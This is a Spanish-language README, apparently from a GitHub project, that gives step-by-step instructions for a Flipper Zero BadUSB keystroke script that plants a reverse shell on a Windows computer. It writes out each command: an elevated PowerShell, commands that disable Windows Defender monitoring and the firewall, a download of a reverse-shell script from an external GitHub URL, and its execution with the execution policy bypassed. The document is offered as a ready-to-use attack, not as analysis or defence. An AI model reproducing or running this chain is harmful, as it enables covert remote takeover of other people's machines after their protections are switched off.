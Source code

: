 # PASOS PARA INYECTAR UNA REVERSESHELL EN UN EQUIPO DESDE UN FLIPPER ZERO.

1. Crea una reverseshell desde 0, o hazla en la página https://www.revshells.com/. 





1. Crea un archivo TXT compuesto por DELAYS, ENTERS Y STRINGS adecuandolos a tu gusto. (Tienes el ejemplo en el proyecto de una reverseshell creada por mi).





1.  DELAY = La función que hace que el procesador espere "delay(1000); //provoca un retardo de 1000ms = 1 segundo".
2.  ENTER = Simula la acción de la tecla Intro del teclado.
3.  STRING = Se trata de una secuencia de caracteres usados para representar el texto.

1.  Sabiendo esto, vamos a empezar a programar nuestro txt.





 1.  Con este comando en String abrimos la pestaña de Ejecutar.
      ```sh g
      GUI r
      ```



 1.  Abrimos Powershell.
      ```sh g
      powershell
      ```
 1.  Lo ejecutamos como administrador.
      ```sh g
      CTRL-SHIFT ENTER
      ```

 1.  Le damos a que sí cuando nos pregunte si queremos abrirlo como administrador.
      ```sh g
      ALT s
      ```
 1.  Utilizamos este String para para deshabilitar el Windows Defender.
      ```sh g
      powershell -command 'Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -  
      DisableIntrusionPreventionSystem $true'
      ```
 1.  Desactivamos el Firewall.
      ```sh g
      Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
      ```
 1.  Descargamos el ReverseShell con el String Invoke-WebRequest (Yo en mi caso lo tengo alojado en github).
      ```sh g
      Invoke-WebRequest -Uri "https://raw.githubusercontent.com/alvaroarenas69/scrips-powershell/main/reverseshell.ps1" -OutFile "reverseshell.ps1"
      ```
 1.  Ejecutamos el ReverseShell.
      ```sh g
      powershell -ExecutionPolicy Bypass -File ".\reverseshell.ps1"
      ```
 1.  Una vez creado el txt, lo guardamos. Conectamos el Flipper al PC mediante la aplicación qflipper, que podemos descargar en el siguiente      enlace: https://flipperzero.one/update
 2.  Dentro de la aplicación, buscamos el fichero Read File y pegamos el txt en la carpeta BADUSB.
 3.  Y por último, solo queda ejecutar el Scrip que hemos creado desde el flipper zero.


















